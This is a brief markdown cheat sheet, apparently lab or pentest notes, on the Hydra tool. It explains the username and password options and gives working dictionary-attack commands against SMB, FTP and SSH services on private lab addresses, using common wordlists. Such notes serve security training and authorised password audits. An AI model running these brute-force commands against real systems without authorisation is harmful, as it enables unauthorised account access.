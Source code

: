 
# Overview


# Options
- -l/L : username/user File
- -p/P : password/password File

---
## Service Examples

### SMB
### Hydra
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`
*lower* case to give string and *upper* case to pass in file
- -l admin : username
- -P /wordlist.txt : pass in wordlist

---
### FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---
### SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

